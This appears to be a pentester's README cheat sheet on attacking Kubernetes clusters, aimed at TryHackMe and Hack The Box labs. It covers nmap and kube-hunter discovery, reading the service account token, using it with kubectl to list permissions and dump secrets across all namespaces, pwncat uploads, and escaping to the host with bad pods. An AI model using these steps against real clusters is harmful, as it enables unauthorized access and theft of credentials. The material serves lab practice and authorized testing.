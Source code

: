 # Kubernetes Exploit Hub

## Description
These are a collection of methods and tools I've found useful on pentesting Kubernetes Clusters. 

### Discovery and Enumeration
**Discovery with nmap (Sample with IP Address):**

```
nmap -sC -sV -p- -oA Kubernetes1 10.10.197.28
```

Pay attention to DNS names from NMAP scan outputs as they can give away that you are working with a Kubernetes environment when you have a cluster operating on a non standard port. 

**Discovering Kubernetes Clusters with Kube Hunter:**

Note: You can do single IP addresses or entire subnet ranges with this tool. If on a penetration testing engagement this should be helpful for fingerprinting kubernetes clusters and developing a quick win on potential pod misconfigurations. 

Software URL:https://github.com/aquasecurity/kube-hunter

Installation:
```
sudo pip3 install kube-hunter
```

Run Kube hunter:

```
kube-hunter
```

### Initial Exploitation

After Gaining access to a cluster. Usually by misconfiguration with the application that it is hosting. PHP, Grafana, etc.

**Service Account Token Location**
```
/var/run/secrets/kubernetes.io/serviceaccount/token
```

Dropping out token and exporting it with your current terminal session:
```
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

```
export TOKEN={TOKEN}
```

**Checking your permissions with the current token that you have(remote command):**
```
kubectl --server https://serverip:port --token=$TOKEN auth can-i --list
```

If cluster is running a self sign certificate then add insecure tls to your command:
```
kubectl --server https://serverip:port --token=$TOKEN --insecure-skip-tls-verify auth can-i --list
```
**Checking your permissions with the current token that you have (Local Commands):**

This is basically the same thing as above with the exception that you are dropping the --server command

ProTip: If you need to do file transfers to a pod. Its very possible you may be in a pod without wget or curl commands. Normally I am only transfer kubectl and a poisoned pod of some sort. Pwncat-cs has been an excellent choice not only from an upload standpoint but you will have a nice full tty session to work with as well. 

Github: https://github.com/calebstewart/pwncat

Installation:

```
pip install pwncat-cs
```

Install with venv (What I would recommend so you don't impact other projects with python version dependicies on your attack box.) 

```
python3 -m venv pwncat-env
source pwncat-env/bin/activate
pip install pwncat-cs
```

Check Permissions:
```
kubectl --token=$TOKEN auth can-i --list
```

**Checking out what PODS are running**
(Remote):
```
kubectl get pods --server https://serverip:port --token=$TOKEN --insecure-skip-tls-verify
```

(Local):
```
kubectl get pods --token=$TOKEN
```
**Get POD Configurations**

This is useful if you need to produce an image of the same type with a posioned pod for later. 

(Local):
```
./kubectl get pod php-deploy-6d998f68b9-wlslz --token=$TOKEN -o yaml
```
**Hunting for API's and getting secrets from them**

Get API's

(Remote):
```
kubectl api-resources --server https://ip:port --token=$TOKEN --insecure-skip-tls-verify
```

(Local):
```
kubectl api-resources --token=$TOKEN --insecure-skip-tls-verify
```

Get namespaces from within API Example is through a API called "secrets":

(Remote):
```
kubectl --server https://10.10.103.214:6443 --token=$TOKEN --insecure-skip-tls-verify get secrets --all-namespaces
```

(Local):
```
kubectl --token=$TOKEN secrets --all-namespaces
```

Pull up YAML output of name/namespaces(example for flag3):

```
kubectl --server https://10.10.103.214:6443 --token=$TOKEN --insecure-skip-tls-verify get secrets flag3 -n kube-system -o yaml
```

### Escaping with bad pods

URL Reference: https://github.com/BishopFox/badPods

**Tips and Tricks with bad pods:**

If Isolated from internet include this in your yaml config:

```
imagePullPolicy: IfNotPresent
```

Always make note of your mount point when breaking out from a pod. This will be in your yaml config of your bad pod. For example this will make your mount point at /host:

```
volumeMounts:
    - mountPath: /host
      name: noderoot
```
## Penetration Testing Resources on Kubernetes

**Try Hack Me Rooms:**

Insekube: https://tryhackme.com/room/insekube

Frank & Herby make an app: https://tryhackme.com/room/frankandherby

Frank and Herby try again: https://tryhackme.com/room/frankandherbytryagain

PalsForLife: https://tryhackme.com/room/palsforlife

Kubernetes for Everyone: https://tryhackme.com/room/kubernetesforyouly

Island Orchestration: https://tryhackme.com/room/islandorchestration

**Hack The Box rooms**

Unobtainium: https://app.hackthebox.com/machines/Unobtainium
